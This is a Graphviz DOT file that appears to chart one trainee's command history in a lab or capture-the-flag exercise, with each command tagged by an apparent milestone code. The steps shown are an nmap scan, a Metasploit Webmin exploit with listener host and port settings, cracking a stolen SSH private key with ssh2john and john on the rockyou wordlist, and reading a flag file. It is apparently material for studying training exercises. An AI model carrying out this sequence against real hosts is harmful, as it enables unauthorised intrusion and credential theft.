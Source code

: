 // creating graph for user: 84
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 A1 "]
	2 [label="ls A10 "]
	3 [label="metasploit U"]
	4 [label="msf-console U"]
	5 [label="sudo service postgresql start U"]
	6 [label="sudo msfdb init U"]
	7 [label="msfconsole M2 "]
	8 [label="search webmin M3 "]
	9 [label="use  A4 "]
	10 [label="use 2 A4 "]
	11 [label="check A7 "]
	12 [label="show options M5 "]
	13 [label="set RHOST 172.18.1.5 A6 "]
	14 [label="set RPORT 10000 M6 "]
	15 [label="check A7 "]
	16 [label="search webmin U"]
	17 [label="use ~ A4 "]
	18 [label="use 3 A4 "]
	19 [label="search webmin U"]
	20 [label="use 3 A4 "]
	21 [label="show options U"]
	22 [label="set SRVHOST 172.18.1.5 U"]
	23 [label="check A7 "]
	24 [label="set SRVHOST 0.0.0.0 U"]
	25 [label="set RHOST 172.18.1.5 U"]
	26 [label="check A7 "]
	27 [label="exploit M8 "]
	28 [label="set LHOST 147.251.83.13 U"]
	29 [label="exploit U"]
	30 [label="set LPORT 12345 U"]
	31 [label="exploit U"]
	32 [label="set LHOST 100.100.100.2 U"]
	33 [label="exploit U"]
	34 [label="set LPORT  U"]
	35 [label="set LPORT 4444 U"]
	36 [label="exploit U"]
	37 [label="set LHOST 10.1.135.83 U"]
	38 [label="nmap 10.1.17.4 A1 "]
	39 [label="ssh 10.1.17.4 A16 "]
	40 [label="ssh eve@10.1.17.4 M16 "]
	41 [label="cd .ssh U"]
	42 [label="ls A10 "]
	43 [label="nano id_rsa U"]
	44 [label="ssh-add id_rsaaaa U"]
	45 [label="ssh_add id_rsa U"]
	46 [label="ssh-add id_rsaa U"]
	47 [label="ssh-add id_rsa U"]
	48 [label="chmod #033[2~ id_rsa A15 "]
	49 [label="exploit U"]
	50 [label="chmod 600 id_rsa M15 "]
	51 [label="ssh-add id_rsa U"]
	52 [label="ssh-add id_rsa U"]
	53 [label="ssh eve@10.1.17.4 U"]
	54 [label="ls A10 "]
	55 [label="mv id_rsa ../id_rsa U"]
	56 [label="cd .. U"]
	57 [label="ll U"]
	58 [label="ls A10 "]
	59 [label="./ssh2john.py A14 "]
	60 [label="./ssh2john.py id_rsa A14 "]
	61 [label="./ssh2john.py id_rsa > hash A14 "]
	62 [label="ls A10 "]
	63 [label="joh hash --show U"]
	64 [label="john hash --show A14 "]
	65 [label="john hash --show A14 "]
	66 [label="john hash --show A14 "]
	67 [label="john hash A14 "]
	68 [label="gunzip /usr/share/wordlists/rockyou.txt.gz U"]
	69 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash M14 "]
	70 [label="ssh eve@10.1.17.4 U"]
	71 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash > result U"]
	72 [label="cat result A1 A9 A11 A12 A17 "]
	73 [label="ssh eve@10.1.17.4 U"]
	74 [label="ssh eve@10.1.17.4 U"]
	75 [label="mv id_rsa .ssh/id_rsa U"]
	76 [label="ssh eve@10.1.17.4 U"]
	77 [label="ssh eve@10.1.17.4 U"]
	78 [label="ls A10 "]
	79 [label="cat top-secret A1 A9 A11 A12 A17 "]
	80 [label="cd top-secret U"]
	81 [label="ls -la A10 "]
	82 [label="cat flag.txt M17 "]
	83 [label="ls A10 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	rankdir=LR
}
